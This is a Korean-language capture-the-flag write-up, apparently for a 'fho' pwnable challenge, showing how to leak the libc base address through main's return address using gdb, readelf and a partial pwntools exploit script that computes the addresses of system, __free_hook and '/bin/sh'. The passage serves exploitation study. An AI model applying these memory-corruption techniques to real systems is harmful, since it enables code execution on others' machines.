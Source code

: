 ### 1. 라이브러리의 변수 및 함수들의 주소 구하기

- `main` 함수의 반환 주소인 `libc_start_main+x` 를 릭하여 libc 베이스 주소를 구하고 변수 및 함수들의 주소를 계산
- `main` 함수는 라이브러리 함수인 `__libc_start_main` 이 호출하므로, `main` 함수의 스택 프레임에는 `__libc_start_main+x` 로 돌아갈 반환 주소가 저장되어 있을 것임
- `__libc_start_main+x` 는 libc 영역 어딘가에 존재하는 코드이므로, `__libc_start_main+x` 의 주소를 릭한 후 해당 값에서 `libc_start_main+x`의 오프셋을 빼는 방식으로 프로세스 메모리에 매핑된 libc의 베이스 주소를 계산할 수 있음
- 먼저 다음과 같이 gdb로 바이너리를 열고 `main` 함수에 중단점을 설정한 후 실행합니다. `main` 함수에서 멈추었을 때, 모든 스택 프레임의 백트레이스를 출력하는 `bt` 명령어로 `main` 함수의 반환 주소를 알아낼 수 있음
    
    ```bash
    $ gdb fho
    pwndbg> b *main
    Breakpoint 1 at 0x8ba
    pwndbg> r
    pwndbg> bt
    #0  0x00005625b14008ba in main ()
    #1  0x00007f5ae2f1cc87 in __libc_start_main (main=0x5625b14008ba <main>, argc=1, argv=0x7ffdf39f3ed8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffdf39f3ec8) at ../csu/libc-start.c:310
    #2  0x00005625b14007da in _start ()
    pwndbg> x/i 0x00007f5ae2f1cc87
       0x7f5ae2f1cc87 <__libc_start_main+231>:  mov    edi,eax
    pwndbg>
    ```
    
- 위 `#1` 부분에서 확인할 수 있듯이 `main` 함수의 반환 주소는 `0x00007f5ae2f1cc87`이고, `x/i`로 출력해보면 `__libc_start_main+231`입니다. `__libc_start_main+231`의 오프셋은 다음과 같이 `readelf` 명령어로도 얻을 수 있습니다.
    
    ```bash
    $ readelf -s libc-2.27.so | grep " __libc_start_main@"
      2203: 0000000000021b10   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
    
    --> __libc_start_main+231의 오프셋 = 0x21b10+231
    ```
    
- 따라서 `main` 함수의 반환 주소인 `__libc_start_main+231` 를 릭한 후, 해당 값에서 `0x21b10+231` 를 빼면 libc의 베이스 주소를 구할 수 있음
- libc의 베이스 주소를 구한 후에는 `__free_hook`, `system` 함수, `"/bin/sh"` 문자열의 오프셋을 더하여 이들의 주소 값도 계산이 가능
- 라이브러리 변수 및 함수들의 주소 구하기

```python
#!/usr/bin/env python3
# Name: fho.py

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return
system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('libc_base', libc_base)
slog('system', system)
```